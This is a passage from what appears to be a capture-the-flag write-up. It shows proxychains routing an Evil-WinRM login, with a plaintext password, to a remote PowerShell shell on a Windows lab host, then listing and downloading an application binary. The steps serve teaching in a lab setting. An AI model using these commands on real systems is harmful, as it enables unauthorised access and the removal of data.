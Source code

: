 I’ll confirm the list of proxies at the end of `/etc/proxychains.conf` is correctly pointing to TCP 1080:

```

[ProxyList]
socks5  127.0.0.1 1080

```

Proxychains will allow the `Evil-WinRM` connection:

```

oxdf@hacky$ proxychains evil-winrm -i 127.0.0.1 -u development -p 'AMl.q2DHp?2.C/V0kNFU'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:5985  ...  OK
*Evil-WinRM* PS C:\Users\development\Documents>

```

## Shell as root

### Enumeration

I finally have access to `C:\DevApp`:

```
*Evil-WinRM* PS C:\devapp> ls

    Directory: C:\devapp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/14/2021   5:02 AM          60026 MyFirstApp.exe
-a----         9/14/2021  10:57 AM            636 restart.ps1

```

I’ll download the binary:

```
*Evil-WinRM* PS C:\devapp> download MyFirstApp.exe
Info: Downloading C:/devapp/MyFirstApp.exe to ./MyFirstApp.exe

Info: Download successful!

```
